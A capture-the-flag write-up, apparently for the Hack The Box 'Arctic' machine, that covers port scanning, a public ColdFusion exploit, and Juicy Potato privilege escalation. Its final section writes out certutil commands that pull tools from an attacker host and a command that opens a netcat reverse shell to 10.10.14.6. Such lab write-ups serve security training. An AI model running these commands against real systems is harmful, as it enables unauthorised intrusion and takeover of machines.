 # Arctic

### Nmap Full port scan (TCP)

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### Nmap Aggressive scan

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

### Enumerating Port 8500

Searching port 8500 online ([https://www.speedguide.net/port.php?port=8500](https://www.speedguide.net/port.php?port=8500)) —> could be Macromedia ColdFusion MX Server using that port.

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

Heading to `http://10.10.10.11:8500` on the web browser

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Searching online `CFIDE` exploit —> **Adobe ColdFusion - Directory Traversal**

[https://www.exploit-db.com/exploits/50057](https://www.exploit-db.com/exploits/50057)

Edit the IP addr and ports

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Got user shell

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

* `SeImpersonatePrivilege` is enables —> vulnerable to Juicy Potato PrivEsc.
* Transfer `nc64.exe` and `juicypotato.exe` to victim

```bash
certutil -urlcache -f <http://10.10.14.6/juicypotato.exe> juicypotato.exe
certutil -urlcache -f <http://10.10.14.6/nc64.exe> nc64.exe
```

* Open netcat listener on attacker using `nc -lvp 443`
* Run JuicyPotato attack

```bash
juicypotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\users\\tolis\\Desktop\\nc64.exe -e cmd.exe 10.10.14.6 443" -t *
```

* Got root shell

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>
